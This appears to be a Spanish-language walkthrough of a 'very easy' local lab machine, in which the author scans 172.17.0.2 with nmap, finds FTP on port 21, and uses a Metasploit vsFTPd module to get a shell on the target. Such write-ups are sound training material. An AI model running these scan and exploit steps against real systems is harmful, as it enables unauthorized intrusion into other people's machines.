 **Autor:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)
da
**Dificultad:** Muy Fácil

**Fecha de creación:** 14/06/2024

----------------


DESPLIEGUE 

```
bash auto_deploy.sh firsthacking.tar
```



------------


PROCEDIMIENTO

Tenemos la IP: `172.17.0.2`.

![[Pasted image 20240908233126.png]]

------------------

RECONOCIMIENTO

Hago un mapeo de esta ip 

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

![[Pasted image 20240908233541.png]]

Me sale lo siguiente, un puerto abierto por el puerto ftp 21.

Lo siguiente que he hecho es usar el script de `vuln`

```
nmap --script "vuln" -p21 172.17.0.2
```

![[Pasted image 20240908233735.png]]

Me da toda esta información. 

Entonces lo siguiente es usar `msfconsole`

```
msfconsole
```


![[Pasted image 20240908233837.png]]

He buscado por el siguiente parametro
```
search vsFTPd
```

y me sale lo siguiente: 

![[Pasted image 20240908234003.png]]

Así que el que yo quiero cargar es el 1, pues uso `use 1`

![[Pasted image 20240908234047.png]]

Pongo un

```
show options
```

![[Pasted image 20240908234142.png]]


Así que lo siguiente es : 

```
set RHOSTS 172.17.0.2
```

Una vez introducido le damos a `run` y ya estaríamos dentro de la máquina víctima.

![[Pasted image 20240908234316.png]]
